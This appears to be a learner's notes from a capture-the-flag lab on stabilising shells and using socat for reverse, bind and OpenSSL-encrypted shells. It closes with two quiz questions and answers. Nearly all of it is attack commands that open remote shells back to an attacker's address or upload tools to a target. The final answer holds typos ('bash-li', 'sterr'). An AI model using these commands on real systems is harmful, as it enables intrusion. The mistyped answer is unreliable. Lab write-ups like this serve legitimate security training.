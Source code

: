 # WHAT THE SHELL

## Technique 1: Python

The first technique we'll be discussing is applicable only to Linux boxes, as they will nearly always have Python installed by default. This is a three stage process:

 1. The first thing to do is use 
```
 python -c 'import pty;pty.spawn("/bin/bash")'
```
 which uses Python to spawn a better featured bash shell; note that some targets may need the version of Python specified. If this is the case, replace python with python2 or python3 as required. At this point our shell will look a bit prettier, but we still won't be able to use tab autocomplete or the arrow keys, and Ctrl + C will still kill the shell.

 2. Step two is: 
```
 export TERM=xterm
```
 this will give us access to term commands such as clear.
 
 3. Finally (and most importantly) we will background the shell using Ctrl + Z. Back in our own terminal we use
```
 stty raw -echo; fg
```
 This does two things: first, it turns off our own terminal echo (which gives us access to tab autocompletes, the arrow keys, and Ctrl + C to kill processes). It then foregrounds the shell, thus completing the process. 

Note that if the shell dies, any input in your own terminal will not be visible (as a result of having disabled terminal echo). To fix this, type `reset` and press enter.

## Technique 2: rlwrap

rlwrap is a program which, in simple terms, gives us access to history, tab autocompletion and the arrow keys immediately upon receiving a shell; however, some manual stabilisation must still be utilised if you want to be able to use Ctrl + C inside the shell.

To use rlwrap, we invoke a slightly different listener:

```
rlwrap nc -lvnp <port>
```
When dealing with a Linux target, it's possible to completely stabilise, by using the same trick as in step three of the previous technique: background the shell with Ctrl + Z, then use `stty raw -echo; fg` to stabilise and re-enter the shell. 

## Technique 3: Socat

Bear in mind that this technique is limited to Linux targets, as a Socat shell on Windows will be no more stable than a netcat shell. To accomplish this method of stabilisation we would first transfer a socat static compiled binary (a version of the program compiled to have no dependencies) up to the target machine. A typical way to achieve this would be using a webserver on the attacking machine inside the directory containing your socat binary (`sudo python3 -m http.server 80`), then, on the target machine, using the netcat shell to download the file. On Linux this would be accomplished with curl or `wget (wget <LOCAL-IP>/socat -O /tmp/socat`). 

Here's the syntax for a basic reverse shell listener in socat:
```
socat TCP-L:<port> -
```
On Windows we would use this command to connect back:
```
socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:powershell.exe,pipes
```
The "pipes" option is used to force powershell (or cmd.exe) to use Unix style standard input and output.

This is the equivalent command for a Linux Target:
```
socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:"bash -li"
```

## Socat Bind Shells

On a Linux target we would use the following command:
```
socat TCP-L:<PORT> EXEC:"bash -li"
```
On a Windows target we would use this command for our listener:
```
socat TCP-L:<PORT> EXEC:powershell.exe,pipes
```
We use the "pipes" argument to interface between the Unix and Windows ways of handling input and output in a CLI environment.

Regardless of the target, we use this command on our attacking machine to connect to the waiting listener.
```
socat TCP:<TARGET-IP>:<TARGET-PORT> -
```

# SOCAT FULLY STABLE LINUX TTY REVERSE SHELL

Now let's take a look at one of the more powerful uses for Socat: a fully stable Linux tty reverse shell.
```
socat TCP-L:<port> FILE:`tty`,raw,echo=0
```
The first listener can be connected to with any payload; however, this special listener must be activated with a very specific socat command. This means that the target must have socat installed. Most machines do not have socat installed by default, however, it's possible to upload a precompiled socat binary, which can then be executed as normal.

The special command is as follows:
```
socat TCP:<attacker-ip>:<attacker-port> EXEC:"bash -li",pty,stderr,sigint,setsid,sane
```

We first need to generate a certificate in order to use encrypted shells. This is easiest to do on our attacking machine:
```
openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt
```
This command creates a 2048 bit RSA key with matching cert file, self-signed, and valid for just under a year. When you run this command it will ask you to fill in information about the certificate. This can be left blank, or filled randomly.
We then need to merge the two created files into a single .pem file:
```
cat shell.key shell.crt > shell.pem
```
Now, when we set up our reverse shell listener, we use:
```
socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 -
```
To connect back, we would use:
```
socat OPENSSL:<LOCAL-IP>:<LOCAL-PORT>,verify=0 EXEC:/bin/bash
```
The same technique would apply for a bind shell:

Target:
```
socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 EXEC:cmd.exe,pipes
```
Attacker:
```
socat OPENSSL:<TARGET-IP>:<TARGET-PORT>,verify=0 -
```
---

What is the syntax for setting up an OPENSSL-LISTENER using the tty technique from the previous task? Use port 53, and a PEM file called "encrypt.pem"
```
socat OPENSSL-LISTEN:53,cert=encrypt.pem,verify=0 FILE:`tty`,raw,echo=0
```

If your IP is 10.10.10.5, what syntax would you use to connect back to this listener?
```
socat OPENSSL:10.10.10.5:53,verify=0 EXEC:"bash-li",pty,sterr,sigint,setsid,sane
```

